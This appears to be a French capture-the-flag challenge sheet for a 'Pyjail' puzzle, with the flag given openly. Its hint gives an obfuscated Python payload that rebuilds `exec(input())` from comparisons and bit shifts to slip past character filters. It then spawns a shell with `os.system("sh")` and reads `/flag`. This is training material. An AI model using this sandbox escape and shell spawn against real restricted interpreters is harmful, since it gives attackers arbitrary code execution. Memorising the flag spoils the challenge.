 # Pyjail

| Catégorie  | Misc     |
|------------|----------|
| Difficulté | Moyen 🙂 |
| Etat       | A tester 🎯 |

## Description

Yet another pyjail...

Format : CYBN{xxx}

- Romain

## Flag
||`CYBN{D4mn_th4t_p4yl04d_1s_hug3}`||

## Piste

`exec(input())` -> 
```
"%c"%(((""<"<")<<(""<")")<<(""<"c")<<(""<"(")<<(""<")")<<(""<"(")<<(""<"<"))+((""<"(")<<(""<"<")<<(""<"(")<<(""<"<")<<(""<"c")<<(""<"%"))+((""<"<")<<(""<"c")<<(""<"c"))+((""<"<")))+"%c"%(((""<"%")<<(""<")")<<(""<")")<<(""<"(")<<(""<")")<<(""<"%")<<(""<"c"))+((""<"c")<<(""<"c")<<(""<"c")<<(""<")")<<(""<")")<<(""<"<"))+((""<")")<<(""<"%")<<(""<")")<<(""<"%")<<(""<")"))+((""<"<")<<(""<"<")<<(""<")")<<(""<"%")))+"%c"%(((""<"(")<<(""<"%")<<(""<"c")<<(""<"(")<<(""<"(")<<(""<")")<<(""<"<"))+((""<"<")<<(""<"<")<<(""<"c")<<(""<"(")<<(""<"c")<<(""<"%"))+((""<"%")<<(""<"<")<<(""<"c"))+((""<"<")))+"c"+"("+"%c"%(((""<"(")<<(""<"%")<<(""<"(")<<(""<")")<<(""<"(")<<(""<"%")<<(""<"%"))+((""<"(")<<(""<")")<<(""<"<")<<(""<")")<<(""<"c")<<(""<"%"))+((""<"<")<<(""<")")<<(""<"c")<<(""<")"))+((""<"(")))+"%c"%(((""<")")<<(""<"c")<<(""<"c")<<(""<"<")<<(""<"(")<<(""<"%")<<(""<"<"))+((""<"<")<<(""<")")<<(""<")")<<(""<")")<<(""<")")<<(""<"c"))+((""<"(")<<(""<"<")<<(""<"(")<<(""<"<"))+((""<"<")<<(""<"c")<<(""<"%"))+((""<"(")<<(""<"(")))+"%c"%(((""<")")<<(""<")")<<(""<")")<<(""<"(")<<(""<"c")<<(""<"<")<<(""<"%"))+((""<")")<<(""<"(")<<(""<"(")<<(""<"%")<<(""<")")<<(""<"("))+((""<"(")<<(""<"%")<<(""<"(")<<(""<")")<<(""<")")))+"%c"%(((""<")")<<(""<"%")<<(""<")")<<(""<"(")<<(""<"<")<<(""<"%")<<(""<"c"))+((""<"(")<<(""<"%")<<(""<"c")<<(""<")")<<(""<")")<<(""<"("))+((""<")")<<(""<"(")<<(""<")")<<(""<"%")<<(""<"<"))+((""<"c")<<(""<"<")<<(""<")"))+((""<")")))+"%c"%(((""<"c")<<(""<"%")<<(""<"<")<<(""<")")<<(""<"<")<<(""<"<")<<(""<"%"))+((""<"c")<<(""<"c")<<(""<"c")<<(""<"%")<<(""<"c")<<(""<"%"))+((""<"c")<<(""<"c")<<(""<")")<<(""<"<")<<(""<"%"))+((""<")")<<(""<"c")<<(""<")")))+"("+")"+")"
```
 
puis `import os;os.system("sh")`

et enfin `cat /flag`
